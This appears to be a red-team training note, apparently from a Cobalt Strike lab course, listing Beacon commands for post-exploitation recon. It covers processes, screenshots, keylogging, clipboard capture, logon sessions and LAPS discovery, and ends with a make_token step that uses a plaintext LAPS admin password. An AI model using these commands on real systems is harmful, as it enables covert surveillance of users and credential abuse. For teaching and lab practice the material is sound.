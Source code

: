 [[Seatbelt#Host Enumeration]]


## Processes

---

```
beacon> ps

[*] This Beacon PID:    YELLOW 7480  
 PID   PPID  Name                                   Arch  Session     User
 ---   ----  ----                                   ----  -------     ----
 0     0     [System Process]                                         
 4     0         System                                               
 88    4             Registry                                         
 364   4             smss.exe                                         
 1532  4             Memory Compression                               
 464   456   csrss.exe                                                
 540   532   csrss.exe                                                
 564   456   wininit.exe                                              
 680   564       services.exe                                         
 448   680           svchost.exe                                      
 2812  448               taskhostw.exe              x64   2           DEV\bfarmer
 4632  448               mmc.exe                                      
 4796  448               sihost.exe                 x64   2           DEV\bfarmer
 6048  448               taskhostw.exe              x64   2           DEV\bfarmer
 7896  448               powershell.exe             x64   2           DEV\bfarmer
 2252  7896                  conhost.exe            x64   2           DEV\bfarmer
 8088  7896                  powershell.exe         x64   2           DEV\bfarmer
 **snipped**
```

Look for processes running in medium integrity (i.e. a standard user). The indentation represents parent/child relationships.


## Screenshots

---

```
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop
```

`View > Screenshots`

## Keylogger

---

```
keylogger
```

`View > Keystrokes`

```
jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 6    0     keystroke logger

jobkill 6
```

## Clipboard

---

```
clipboard
```
Does not run as a job.


## User Sessions

---

```
net logons
```


## LAPS

---

There are a few methods to hunt for the presence of LAPS.  If it's applied to a machine that you have access to, AdmPwd.dll will be on disk.

```
beacon> ls C:\Program Files\LAPS\CSE
```

We could also search for GPOs that have "LAPS" or some other descriptive term in the name.

[[PowerView#Get-DomainGPO#Keyword]]

As well as computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property).

[[PowerView#Get-DomainComputer#Keyword]]

If we locate the correct GPO, we can download the LAPS configuration from the gpcfilesyspath.

```
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine
```

```
beacon> download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine\Registry.pol
```

The `Parse-PolFile` cmdlet from the [GPRegistryPolicyParser](https://github.com/PowerShell/GPRegistryPolicyParser) package can be used to convert this file into human-readable format.

```
PS C:\Users\Attacker> Parse-PolFile .\Desktop\Registry.pol
```

For exploitation refer to [[Credential Theft#LAPS ms-Mcs-AdmPwd]]

The `make_token` command is an easy way to leverage it.

```
beacon> make_token .\LapsAdmin 1N3FyjJR5L18za
[+] Impersonated DEV\bfarmer
```
